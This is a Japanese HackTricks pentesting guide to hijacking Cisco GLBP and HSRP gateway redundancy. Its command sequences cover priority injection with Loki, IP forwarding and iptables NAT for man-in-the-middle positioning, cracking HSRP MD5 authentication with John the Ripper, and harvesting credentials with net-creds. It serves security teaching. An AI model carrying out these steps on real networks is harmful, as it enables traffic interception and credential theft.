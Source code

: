 # GLBP & HSRP 攻撃

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じてゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい** 場合は [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) を発見し、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) のコレクションを見つける
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)** に参加するか、[telegramグループ](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live) をフォローする
* **HackTricks** と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks) のGitHubリポジトリにPRを提出して、あなたのハッキングテクニックを共有する

</details>

<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## FHRP ハイジャッキング概要

### FHRP の洞察
FHRP は、複数のルーターを単一の仮想ユニットに統合することで、ネットワークの堅牢性を提供し、負荷分散と障害耐性を向上させるために設計されています。Cisco Systems は、GLBP や HSRP などの優れたプロトコルをこのスイートで導入しました。

### GLBP プロトコルの洞察
Cisco の創造物である GLBP は、TCP/IP スタック上で機能し、通信にはポート3222でUDPを使用します。GLBP グループ内のルーターは、3秒ごとに "hello" パケットを交換します。ルーターがこれらのパケットを10秒間送信しない場合、オフラインと見なされます。ただし、これらのタイマーは固定されておらず、変更可能です。

### GLBP の動作と負荷分散
GLBP は、単一の仮想IPと複数の仮想MACアドレスを使用して、ルーター間で負荷を分散することで際立っています。GLBP グループでは、すべてのルーターがパケットの転送に関与します。HSRP/VRRP とは異なり、GLBP は次のメカニズムを通じて本物の負荷分散を提供します:

- **ホスト依存型負荷分散:** ホストに一貫した AVF MAC アドレスの割り当てを維持し、安定した NAT 構成に不可欠です。
- **ラウンドロビン負荷分散:** リクエストするホスト間で AVF MAC アドレスの割り当てを交互に行うデフォルトのアプローチ。
- **重み付きラウンドロビン負荷分散:** 事前に定義された "重み" メトリクスに基づいて負荷を分散します。

### GLBP における主要なコンポーネントと用語
- **AVG（Active Virtual Gateway）:** MAC アドレスをピアルーターに割り当てる責任を持つメインルーター。
- **AVF（Active Virtual Forwarder）:** ネットワークトラフィックを管理するために指定されたルーター。
- **GLBP 優先度:** AVG を決定するメトリクスで、デフォルト値は100で、1から255の範囲で変更可能です。
- **GLBP 重み:** ルーター上の現在の負荷を反映し、手動で調整するか、オブジェクトトラッキングを介して調整可能です。
- **GLBP 仮想IPアドレス:** 接続されたすべてのデバイスのデフォルトゲートウェイとして機能します。

GLBP では、予約されたマルチキャストアドレス224.0.0.102 と UDP ポート3222 を使用して相互作用します。ルーターは3秒ごとに "hello" パケットを送信し、パケットが10秒間欠落した場合は非稼働と見なされます。

### GLBP 攻撃メカニズム
攻撃者は、最も高い優先度値（255）を持つ GLBP パケットを送信することで、主要ルーターになることができます。これにより、DoS または MITM 攻撃が可能となり、トラフィックの傍受やリダイレクトが可能となります。

### Loki を使用した GLBP 攻撃の実行
[Loki](https://github.com/raizo62/loki_on_kali) は、優先度と重みが255に設定されたパケットを注入することで GLBP 攻撃を実行できます。攻撃前の手順には、Wireshark のようなツールを使用して、仮想IPアドレス、認証の有無、およびルーターの優先度値などの情報を収集することが含まれます。

攻撃手順:
1. プロミスキャスモードに切り替えて IP フォワーディングを有効にします。
2. ターゲットルーターを特定し、そのIPを取得します。
3. Gratuitous ARP を生成します。
4. AVG をなりすまして悪意のある GLBP パケットを注入します。
5. 攻撃者のネットワークインターフェイスにセカンダリIPアドレスを割り当て、GLBP 仮想IPを反映させます。
6. 完全なトラフィックの可視性のために SNAT を実装します。
7. インターネットアクセスを元の AVG ルーターを介して継続するようにルーティングを調整します。

これらの手順に従うことで、攻撃者は自分自身を「中間者」として配置し、暗号化されていないまたは機密性の高いデータを含むネットワークトラフィックを傍受および分析することができます。

デモンストレーションのために、必要なコマンドスニペットを以下に示します:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### HSRPハイジャックのパッシブな説明とコマンドの詳細

#### HSRP（Hot Standby Router/Redundancy Protocol）の概要
HSRPは、ネットワークゲートウェイの冗長性のために設計されたCisco独自のプロトコルです。複数の物理ルータを1つの論理ユニットに構成し、共有IPアドレスを持つことができます。この論理ユニットは、トラフィックを管理するための責任を持つプライマリルータによって管理されます。GLBPが優先度や重みなどのメトリクスを使用して負荷分散を行うのに対し、HSRPはトラフィック管理に単一のアクティブルータを使用します。

#### HSRPの役割と用語
- **HSRPアクティブルータ**: トラフィックフローを管理するゲートウェイとして機能するデバイス。
- **HSRPスタンバイルータ**: アクティブルータが故障した場合に引き継ぐ準備ができたバックアップルータ。
- **HSRPグループ**: 単一の強靭な仮想ルータを形成するために協力するルータのセット。
- **HSRP MACアドレス**: HSRPセットアップ内の論理ルータに割り当てられた仮想MACアドレス。
- **HSRP仮想IPアドレス**: 接続されたデバイスのデフォルトゲートウェイとして機能するHSRPグループの仮想IPアドレス。

#### HSRPのバージョン
HSRPには、HSRPv1とHSRPv2の2つのバージョンがあり、主にグループ容量、マルチキャストIPの使用、および仮想MACアドレス構造が異なります。プロトコルは、サービス情報の交換に特定のマルチキャストIPアドレスを使用し、Helloパケットは3秒ごとに送信されます。パケットが10秒間受信されない場合、ルータは非アクティブと見なされます。

#### HSRP攻撃メカニズム
HSRP攻撃は、最大優先度値を注入してアクティブルータの役割を強制的に引き継ぐことを含みます。これにより、中間者攻撃（MITM）が発生する可能性があります。攻撃前の重要なステップには、HSRPセットアップに関するデータを収集することが含まれます。これは、Wiresharkを使用してトラフィックを分析することで行うことができます。

#### HSRP認証のバイパス手順
1. HSRPデータを含むネットワークトラフィックを.pcapファイルとして保存します。
```shell
tcpdump -w hsrp_traffic.pcap
```
2. hsrp2john.pyを使用して.pcapファイルからMD5ハッシュを抽出します。
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. John the Ripperを使用してMD5ハッシュをクラックします。
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Lokiを使用したHSRPインジェクションの実行**

1. HSRP広告を特定するためにLokiを起動します。
2. ネットワークインターフェースをプロミスキャスモードに設定し、IPフォワーディングを有効にします。
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Lokiを使用して特定のルータをターゲットにし、クラックされたHSRPパスワードを入力し、アクティブルータを偽装するために必要な設定を行います。
4. アクティブルータの役割を取得した後、ネットワークインターフェースとIPテーブルを設定して正当なトラフィックを傍受します。
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. 以前のアクティブルータを介してトラフィックをルーティングするためにルーティングテーブルを変更します。
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. 傍受したトラフィックから資格情報をキャプチャするためにnet-creds.pyや類似のユーティリティを使用します。
```shell
sudo python2 net-creds.py -i eth0
```

これらの手順を実行することで、攻撃者はGLBPハイジャックの手順と同様にトラフィックを傍受および操作する立場に置かれます。これは、HSRPなどの冗長性プロトコルの脆弱性と堅牢なセキュリティ対策の必要性を示しています。
